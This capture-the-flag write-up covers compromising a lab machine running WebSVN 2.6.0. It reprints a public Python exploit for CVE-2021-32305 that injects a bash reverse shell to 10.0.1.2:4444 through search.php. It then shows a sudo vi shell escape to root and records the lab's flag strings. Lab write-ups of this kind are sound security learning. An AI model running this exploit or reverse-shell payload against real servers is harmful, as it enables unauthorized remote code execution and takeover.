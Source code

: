 # WebSVN

As the name suggests, there is a WebSVN server running on the machine.

![](screenshots/1.png)

```
Powered by WebSVN 2.6.0 and Apache Subversion 1.14.2
```

The version has a known vulnerability, `CVE-2021-32305`. <https://www.exploit-db.com/exploits/50042>, [50042.py](workdir/50042.py) .

```python
# Exploit Title: Websvn 2.6.0 - Remote Code Execution (Unauthenticated)
# Date: 20/06/2021
# Exploit Author: g0ldm45k
# Vendor Homepage: https://websvnphp.github.io/
# Software Link: https://github.com/websvnphp/websvn/releases/tag/2.6.0
# Version: 2.6.0
# Tested on: Docker + Debian GNU/Linux (Buster)
# CVE : CVE-2021-32305

import requests
import argparse
from urllib.parse import quote_plus

PAYLOAD = "/bin/bash -c 'bash -i >& /dev/tcp/10.0.1.2/4444 0>&1'"
REQUEST_PAYLOAD = '/search.php?search=";{};"'

parser = argparse.ArgumentParser(description='Send a payload to a websvn 2.6.0 server.')
parser.add_argument('target', type=str, help="Target URL.")

args = parser.parse_args()

if args.target.startswith("http://") or args.target.startswith("https://"):
    target = args.target
else:
    print("[!] Target should start with either http:// or https://")
    exit()

requests.get(target + REQUEST_PAYLOAD.format(quote_plus(PAYLOAD)))

print("[*] Request send. Did you get what you wanted?")
```

![](screenshots/2.png)

# Flag 1
`flag{off_1_7b0f0f2d08a0c77baee541b00cbcf3d4}`

# Privesc

Checking [sudo](https://linux.die.net/man/8/sudo), the current `apache` can run [vi](https://linux.die.net/man/1/vi).

```bash
sudo -l
```

![](screenshots/3.png)

The `vi` process is running as `root` this way, which is trivial to escape.

```
:!/bin/bash 
```

![](screenshots/4.png)

# Flag 2
`flag{off_2_c80872811fde160d6f44e6a8f062df60}`
